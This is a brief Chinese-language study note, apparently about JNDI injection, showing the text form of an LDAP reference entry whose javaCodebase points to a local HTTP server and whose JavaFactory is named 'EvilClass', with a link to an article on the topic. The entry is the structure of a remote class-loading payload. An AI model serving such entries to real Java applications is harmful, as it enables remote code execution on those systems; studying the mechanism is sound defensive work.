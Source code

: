 # 1.JNDI返回的是什么？

![image-20211221110501975](images/image-20211221110501975.png)

文本化的数据

```
ObjectClass: javaNamingReference
javaCodebase: http://localhost:5000/
JavaFactory: EvilClass
javaClassName: FooBar
```

# 参考资料:

> https://evilpan.com/2021/12/13/jndi-injection/